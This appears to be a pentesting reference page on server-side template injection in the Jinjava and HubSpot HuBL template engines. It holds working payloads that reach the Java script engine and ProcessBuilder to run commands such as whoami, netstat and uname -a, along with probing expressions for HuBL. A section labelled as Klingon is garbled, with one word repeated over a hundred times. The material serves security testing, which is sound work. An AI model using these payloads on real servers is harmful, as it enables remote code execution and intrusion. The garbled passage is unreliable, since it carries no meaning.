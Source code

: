 Jinjava is a template engine written in Java that allows you to render dynamic content in your web applications. It is commonly used in Java-based web frameworks such as Spring Boot.

Server-Side Template Injection (SSTI) is a vulnerability that occurs when user-supplied input is not properly sanitized and is directly embedded into a template engine. This can lead to remote code execution and other security risks.

To exploit SSTI in Jinjava, you need to identify the injection point and craft a payload that will execute arbitrary code. This can be done by injecting Jinjava expressions into the template, which will be evaluated and executed by the server.

To prevent SSTI vulnerabilities, it is important to properly sanitize user input and validate any data that is being passed to the template engine. Additionally, keeping your software and libraries up to date can help mitigate potential risks.

#### tlhIngan Hol

Jinjava (Java) vItlhutlh Hoch vItlhutlh vItlhutlh Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch Hoch
```java
{{'a'.toUpperCase()}} would result in 'A'
{{ request }} would return a request object like com.[...].context.TemplateContextRequest@23548206
```
Jinjava - Command execution

Fixed by [https://github.com/HubSpot/jinjava/pull/230](https://github.com/HubSpot/jinjava/pull/230)
```java
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
```
**Qapla'!**

* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinjava](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinjava)

### Hubspot - HuBL (Java)

* `{% %}` statement delimiters
* `{{ }}` expression delimiters
* `{# #}` comment delimiters
* `{{ request }}` - com.hubspot.content.hubl.context.TemplateContextRequest@23548206
* `{{'a'.toUpperCase()}}` - "A"
* `{{'a'.concat('b')}}` - "ab"
* `{{'a'.getClass()}}` - java.lang.String
* `{{request.getClass()}}` - class com.hubspot.content.hubl.context.TemplateContextRequest
* `{{request.getClass().getDeclaredMethods()[0]}}` - public boolean com.hubspot.content.hubl.context.TemplateContextRequest.isDebug()
